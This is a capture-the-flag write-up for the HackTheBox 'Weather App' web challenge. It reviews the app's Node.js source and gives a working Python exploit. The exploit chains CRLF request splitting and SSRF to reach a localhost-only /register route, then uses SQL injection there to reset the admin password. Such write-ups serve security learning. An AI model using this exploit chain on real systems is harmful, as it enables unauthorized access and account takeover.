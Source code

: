 # Writeup for Weather App (Web Challenge from HackTheBox)

> Multiple bugs had to be chained in order to obtain the flag. Here's a brief summary:

* HTTP request splitting (CRFL Injection) on POST request at /api/weather in the "endpoint" parameter.
* Exploit the request splitting to perform an SSRF.
* POST request to /register endpoint is only possible as localhost, so utilize the SSRF to make the request.
* The register form is vulnerable to SQL Injection. Exploit it to change admin password.
* Login as admin to obtain the flag.

> Writeup:

## Code Review

Looking at the code, I found these endpoints:
 * /login
 * /register
 * /api/weather

This part of the code handles the POST request on the login page.
```js
router.post('/login', (req, res) => {
    let {
        username,
        password
    } = req.body;

    if (username && password) {
        return db.isAdmin(username, password)
            .then(admin => {
                if (admin) return res.send(fs.readFileSync('./flag').toString());
                return res.send(response('You are not admin'));
            })
            .catch((e) => res.send(response(e.message)));
    }

    return re.send(response('Missing parameters'));
});
```
Apparantly, logging in as admin would give us the flag. There is an 'isAdmin' function that takes our username and password inputs as arguments and checks if we're admin or not. So, I checked the code for this function in database.js file.

```js
async isAdmin(user, pass) {
        return new Promise(async (resolve, reject) => {
            try {
                let smt = await this.db.prepare('SELECT username FROM users WHERE username = ? and password = ?');
                let row = await smt.get(user, pass);
                resolve(row !== undefined ? row.username == 'admin' : false);
            } catch (e) {
                reject(e);
                }
        });
}
```

It just searches for a row in 'users' table with the username and password that we provide. If it finds a row matching the values we gave, it checks if the username is 'admin' or not and returns true/false. In the same file, I also found that an admin account gets created with a randomized password at start. So, I thought there must be an SQL Injection somewhere. Then I looked at the code for registration in the same file.
```js
  async register(user, pass) {
        return new Promise(async (resolve, reject) => {
            try {
                let query = `INSERT INTO users (username, password) VALUES ('${user}', '${pass}')`;
                resolve((await this.db.run(query)));
            } catch (e) {
                reject(e);
            }
        });
    }
   ```
This is it. It seemed to be vulnerable to SQLi since, the username and password we provide had not been filtered and was directly appended to the query which means we can inject our own SQL queries into it. However, in order to register a new account we had to send the POST request locally.
```js
router.post('/register', (req, res) => {
    if (req.socket.remoteAddress.replace(/^.*:/, '') != '127.0.0.1') {
        return res.status(401).end();
    }
    let {
        username,
        password
    } = req.body;

    if (username && password) {
        return db.register(username, password)
            .then(() => res.send(response('Successfully registered')))
            .catch((err) => {
                res.send(response(err.message))
            });
    }

    return res.send(response('Missing parameters'));
});
```
As we can see here, when we send a POST request to /register, it checks our IP and only allows registration if it's sent from localhost. So, we need to find an SSRF to make this request.

Now, looking at the code for /api/weather endpoint, I found that it calls 'getWeather' function by passing our POST data as it's arguments
```js
return WeatherHelper.getWeather(res, endpoint, city, country);
```

So, I took a look at the getWeather function in WeatherHelper.js file. Here, I saw this line of code
```js
let weatherData = await HttpHelper.HttpGet(`http://${endpoint}/data/2.5/weather?q=${city},${country}&units=metric&appid=${apiKey}`); 
```
After looking at the code for 'HttpGet' function, I found that it uses the 'http' module to send a GET request to the provided argument. Clearly, we can utilize this function to perform an SSRF attack since we can control the 'endpoint' parameter. However, we can only send GET requests using this API whereas, our goal is to send a POST request to /register. So, I got stuck at this point for a while. I later realized that this was not the latest version of NodeJS. I searched for some vulnerabilities in this version of Node and found that I could perform CRLF injection in 'get' function of the http module. So, now this can be exploited to smuggle a POST request to /register.

Keeping all these things in mind, here's a python code I wrote to change the admin password:
```py
import requests as r

sp="\u0120" # Space
rn="\u010D"+"\u010A" # \r\n

# Exploiting SQL Injection on registration to UPDATE the password of admin
# Register a new user with username "admin" and password "a') ON CONFLICT (username) DO UPDATE password='password' -- "
# Since, admin username already exists, it'll create a conflict and our injected code will get executed and updates the admin password to 'password'
username="admin"
passwordPayload="a%27)"+sp+"ON"+sp+"CONFLICT"+sp+"(username)"+sp+"DO"+sp+"UPDATE"+sp+"SET"+sp+"password=%27password%27;"+sp+"--"+sp 

postData=f"username={username}&password={passwordPayload}"

# Injecting CRLF on "endpoint" parameter to smuggle a POST request to /register with postData 
data={
    "endpoint":f"127.0.0.1/{sp}HTTP/1.1{rn}Host:{sp}127.0.0.1{rn}{rn}POST{sp}/register{sp}HTTP/1.1{rn}Host:{sp}127.0.0.1{rn}Content-Type:{sp}application/x-www-form-urlencoded{rn}Content-Length:{sp}{str(len(postData))}{rn}{rn}{postData}{rn}{rn}GET{sp}",
    "city":"Kathmandu",
    "country":"NP"
}
r.post("http://159.65.92.208:30533/api/weather",data=data)
```

Then, I logged in with username 'admin' and password 'password' and got the flag :)
